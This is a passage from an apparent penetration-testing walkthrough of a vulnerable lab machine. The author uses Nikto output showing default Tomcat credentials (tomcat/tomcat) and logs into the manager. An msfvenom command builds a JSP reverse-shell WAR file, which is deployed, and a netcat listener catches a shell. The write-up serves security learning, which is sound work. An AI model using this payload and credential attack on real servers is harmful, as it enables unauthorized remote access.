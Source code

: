 ``` 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 'tomcat'). Apache Tomcat.
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /host-manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7661 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2017-12-03 12:22:12 (GMT-5) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto found the default credentials of tomcat/tomcat. Used them to log in to the Web Application Manager interface.

{% img center /images/pentest/kevgir/manager-fullpage.png 'manager' 'tomcat web application manager' %}

The interesting part here is that we can upload a WAR file. A Web Application Resource file is a JAR file used to distribute various components that make up a web application. For this particular scenario, I decided to generate a payload with msfvenom, but there is also a Metasploit module that can do the job: <code>msfvenom -a x86 --platform linux -p java/jsp_shell_reverse_tcp LHOST=192.168.217.132 LPORT=8888 -f war -o runme.war</code>

``` 
msfvenom -a x86 --platform linux -p java/jsp_shell_reverse_tcp LHOST=192.168.217.132 LPORT=8888 -f war -o runme.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes
Saved as: runme.war
```

Check what's inside:

``` 
jar -tf runme.war 
WEB-INF/
WEB-INF/web.xml
kndeoavjwgjs.jsp
```

I deployed it and a new folder called /runme was created on the server. With a netcat listening, I browsed to the folder and bam!

``` 
nc -vnlp 8888
listening on [any] 8888 ...
connect to [192.168.217.132] from (UNKNOWN) [192.168.217.128] 37009
whoami
tomcat7
```
